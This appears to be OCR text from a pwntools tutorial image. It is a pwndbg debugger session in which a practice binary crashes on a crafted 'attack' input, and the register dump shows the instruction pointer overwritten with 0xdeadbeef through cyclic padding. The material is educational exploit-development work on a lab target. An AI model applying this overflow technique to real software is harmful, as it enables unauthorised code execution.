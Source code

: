 ```
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 195 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from intro2pwnFinal...(no debugging symbols found)...done.
pwndbg> r < attack
Starting program: /home/buzz/IntroToPwntools/IntroToPwntools/shellcraft/intro2pwnFinal < attack
Hello There. Do you have an input for me?

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 EAX  0xffffd4c0 ◂— 0x61616161 ('aaaa')
 EBX  0x61616172 ('raaa')
 ECX  0xf7fc15c0 (_IO_2_1_stdin_) ◂— mov    byte ptr [eax], ah /* 0xfbad2088 */
 EDX  0xf7fc289c (_IO_stdfile_0_lock) ◂— 0
 EDI  0x0
 ESI  0xf7fc1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
 EBP  0x61616173 ('saaa')
 ESP  0xffffd510 —▸ 0xffffd500 ◂— 0x61616171 ('qaaa')
 EIP  0xdeadbeef
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
Invalid address 0xdeadbeef










─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd510 —▸ 0xffffd500 ◂— 0x61616171 ('qaaa')
01:0004│     0xffffd514 ◂— 0x0
02:0008│     0xffffd518 ◂— 0x0
03:000c│     0xffffd51c —▸ 0xf7e01f21 (__libc_start_main+241) ◂— add    esp, 0x10
04:0010│     0xffffd520 —▸ 0xf7fc1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
05:0014│     0xffffd524 —▸ 0xf7fc1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
06:0018│     0xffffd528 ◂— 0x0
07:001c│     0xffffd52c —▸ 0xf7e01f21 (__libc_start_main+241) ◂— add    esp, 0x10
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0 0xdeadbeef
─────────────────

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ cat shellcraft.py 
```